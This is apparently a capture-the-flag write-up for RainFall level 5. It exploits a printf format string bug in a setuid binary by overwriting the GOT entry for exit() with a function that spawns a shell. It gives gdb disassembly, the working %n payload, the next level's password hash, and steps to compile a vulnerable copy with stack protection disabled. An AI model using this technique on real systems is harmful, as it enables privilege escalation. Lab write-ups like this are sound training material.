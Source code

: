 # Level 5

## Vulnerability

Global Offset Table Exploit + printf string vulnerability

## Context

```
level5@RainFall:~$ ls -l
total 8
-rwsr-s---+ 1 level6 users 5385 Mar  6  2016 level5
level5@RainFall:~$ ./level5
hello
hello
```
We have a binary that prints input from the stdin.

## Solution

Let's take a look at the binary in gdb. <br/>
We can see here that ```level5``` makes a call to ```main()```, which makes a call to a function ```n()```. <br/>
There is also a function ```o()``` which is not called. 
```
(gdb) disas main
Dump of assembler code for function main:
   0x08048504 <+0>:	push   %ebp
   0x08048505 <+1>:	mov    %esp,%ebp
   0x08048507 <+3>:	and    $0xfffffff0,%esp
   0x0804850a <+6>:	call   0x80484c2 <n>
   0x0804850f <+11>:	leave
   0x08048510 <+12>:	ret
```
Let's take a deeper look a ```n()```. <br/>
We can see two function calls in ```n()```. <br/>
One is to ```fgets()```, which is protected against buffer overflow attacks. <br/>
The other is to ```printf()```, which is vulnerable to string format exploits. <br/>
The function then calls ```exit()```.
```
(gdb) disas n
Dump of assembler code for function n:
[...]
   0x080484e5 <+35>:	call   0x80483a0 <fgets@plt>
[...]
   0x080484f3 <+49>:	call   0x8048380 <printf@plt>
[...]
   0x080484ff <+61>:	call   0x80483d0 <exit@plt>
```
In ```o()```, we can see a call to ```system()```, which launches a new shell. 
```
(gdb) disas o
Dump of assembler code for function o:
[...]
   0x080484b1 <+13>:	call   0x80483b0 <system@plt>
```
Why are all these functions ```@plt```? <br/> <br/>
~ A little background: ~ <br/>
A ```PLT``` (or Procedure Linkage Table) is a special section in compiled programs which consists of many jump instructions to external  <br/>
functions / shared libraries (for example, libc functions). These jump instructions jump to the ```GOT``` (or Global Offset Table),  <br/>
which contains the actual function address. <br/>
The PLT is read-only, but the GOT can be written to. <br/>
The execution flow of the program can be controlled by overwriting one of the GOT's function addresses. <br/> <br/>
So... what's the plan? <br/>
We can leverage ```printf``` in a format string attack to replace the address of ```exit()``` with the address of ```o()```, <br/>
which will then call ```system``` to launch a new shell. <br/> <br/> 
Let's locate the addresses of ```exit()``` and ```o()```. <br/> 
```
(gdb) info functions
All defined functions:

[...]
0x080483d0  exit@plt
0x080484a4  o
```
Unfortunately, the real address of ```exit()``` is in the GOT. Let's looks there. 
```
level5@RainFall:~$ objdump -R level5 | grep exit
08049838 R_386_JUMP_SLOT   exit
```
So the address of ```exit()``` is 0x08049838, and the address of ```o()``` is 0x080484a4.<br/><br/>

Just like in level3, let's check our buffer position with a ```printf()``` string format exploit.
```
level5@RainFall:~$ python -c 'print "AAAA %x %x %x %x %x %x %x"' | ./level5
AAAA 200 b7fd1ac0 b7ff37d0 41414141 20782520 25207825 78252078
```
We can see our buffer "AAAA" in the 4th position on the stack as 41414141. <br/>
So let's replace "AAAA" with the address of ```exit()``` (in little endian). <br/><br/>
The next step is to overwrite ```exit()``` by ```o()```, using the the ```%n``` modifier. <br/>
For the ```%n``` modifier, we need the number of bytes to write. <br/>
"0x080484a4" in decimal is "134513828" (minus the exit GOT address [4 bytes]). <br/><br/>
Here is what our string attack will look like:
```
"exit GOT address" + "134513828 - 4 bytes" + "%4$n"
python -c 'print "\x38\x98\x04\x08"+"%134513824d%4$n"' 
```
Let's try it out!
```
level5@RainFall:~$ (python -c 'print "\x38\x98\x04\x08" + "%134513824d%4$n"' ; cat -) | ./level5
[You will find are in an infinite print loop. Type anything and press "enter"]
whoami
level6
cat /home/user/level6/.pass
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```

## Recreate Exploited Binary

As user level6, in /tmp, create and compile level5_source.c.
```
level6@RainFall:~$ cd /tmp
level6@RainFall:/tmp$ gcc level5_source.c -fno-stack-protector -Wno-format-security -o level5_source
```
Edit permissions including suid, then move the binary to home directory.
```
level6@RainFall:/tmp$ chmod u+s level5_source
level6@RainFall:/tmp$ chmod +wx ~; mv level5_source ~
```
Exit back to user level5, then run the binary. <br/>
Notes: 
- Our new address for ```exit()``` is located at 0x0804a014 (but we still print the address in little endian).
- Our new address for ```o()``` is located at 0x080484c4 => 134513860 (minus the exit GOT address [4 bytes])
```
level6@RainFall:/tmp$ exit
exit
level5@RainFall:~$ (python -c 'print "\x14\xa0\x04\x08" + "%134513856d%4$n"' ; cat -) | /home/user/level6/level5_source
[... infinite print loop ...]
cat /home/user/level6/.pass
```
